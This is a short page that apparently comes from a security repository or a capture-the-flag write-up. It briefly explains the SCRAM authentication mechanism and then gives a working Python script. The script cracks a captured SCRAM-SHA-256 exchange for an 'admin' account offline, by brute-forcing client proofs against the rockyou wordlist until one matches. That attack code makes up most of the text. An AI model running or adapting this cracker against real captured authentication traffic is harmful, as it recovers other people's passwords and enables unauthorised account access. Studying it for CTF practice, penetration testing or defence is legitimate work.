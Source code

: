 SCRAM, which stands for Salted Challenge Response Authentication Mechanism, is a cryptographic hashing algorithm used for secure password storage and authentication. It is commonly used in protocols like SASL (Simple Authentication and Security Layer) to securely authenticate users without sending their passwords over the network in plain text. SCRAM hashing involves salting the password before hashing it, adding an extra layer of security to prevent brute force attacks and rainbow table attacks.

# Custom Tooling

```
#!/usr/bin/python3

import base64
import hashlib
import hmac
import sys

USERNAME = 'admin'
SALT = 'zOa0kWA/OTak0a0vNaN0Zh2drO1uekoDUh4sdg=='
CLIENT_NONCE = '+CDTb3v9SwhwxAXb4+vZ32l0VsTvrLeK'
SERVER_NONCE = '+CDTb3v9SwhwxAXb4+vZ32l0VsTvrLeKoGtDP4x0LH5WZgQ9xFMJEJknBHTp6N1D'
ITERATIONS = 15000
TARGET = '/nW1YVs0JcvxU48jLHanbkQbZ4GFJ8+Na8fj7xM1s98='
WORDLIST = '/usr/share/wordlists/rockyou.txt'

def byte_xor(ba1, ba2):
    return bytes([_a ^ _b for _a, _b in zip(ba1, ba2)])

def proof(username, password, salt, client_nonce, server_nonce, iterations):
    raw_salt = base64.b64decode(salt)
    client_first_bare = 'n={},r={}'.format(username, client_nonce)
    server_first = 'r={},s={},i={}'.format(server_nonce, salt, iterations)
    client_final_without_proof = 'c=biws,r={}'.format(server_nonce)
    auth_msg = '{},{},{}'.format(client_first_bare, server_first, client_final_without_proof)

    salted_password = hashlib.pbkdf2_hmac('sha256', password.encode('utf-8'), raw_salt, iterations)
    client_key = hmac.digest(salted_password, b'Client Key', 'sha256')
    stored_key = hashlib.sha256(client_key).digest()
    client_signature = hmac.new(stored_key, auth_msg.encode('utf-8'), 'sha256').digest()
    client_proof = byte_xor(client_key, client_signature)

    return base64.b64encode(client_proof).decode('utf-8')

counter = 0
with open(WORDLIST) as f:
    for candidate in f:
        counter = counter + 1
        if counter % 1000 == 0:
            print('Tried {} passwords'.format(counter))

        p = proof(USERNAME, candidate.rstrip('\n'), SALT, CLIENT_NONCE, SERVER_NONCE, ITERATIONS)
        if p == TARGET:
            print('Password found: {}'.format(candidate.rstrip('\n')))
            sys.exit(0)

print('Wordlist exhausted with no password found.')

```